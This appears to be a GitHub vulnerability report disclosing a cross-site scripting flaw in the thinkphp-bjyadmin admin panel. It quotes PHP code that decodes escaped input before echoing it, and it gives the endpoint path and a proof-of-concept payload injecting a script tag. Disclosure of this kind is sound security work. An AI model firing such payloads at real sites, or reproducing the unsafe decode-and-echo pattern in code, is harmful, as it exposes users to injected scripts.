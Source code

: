 A xss vulnerability in bjyadmin-latest(commit a560fd5).

The path of the vulnerability.

In file https://github.com/baijunyao/thinkphp-bjyadmin/blob/master/Public/statics/umeditor1_2_3/php/getContent.php

```php
...
$content =  htmlspecialchars($_POST['myEditor']);		// Line 9
...
echo  "<div class='content'>".htmlspecialchars_decode($content)."</div>"; // Line 14
```


We see that there is no check between the input  $_POST["myEditor"] and the output(Line 9)

Thus the XSS will happen at `echo  "<div class='content'>".htmlspecialchars_decode($content)."</div>";`

Poc:

POST /Public/statics/umeditor1_2_3/php/getContent.php 

`myEditor=</div><script>alert('xss')</script>`

Manual verification:

![alt text](1.png)

![alt text](2.png)


@baijunyao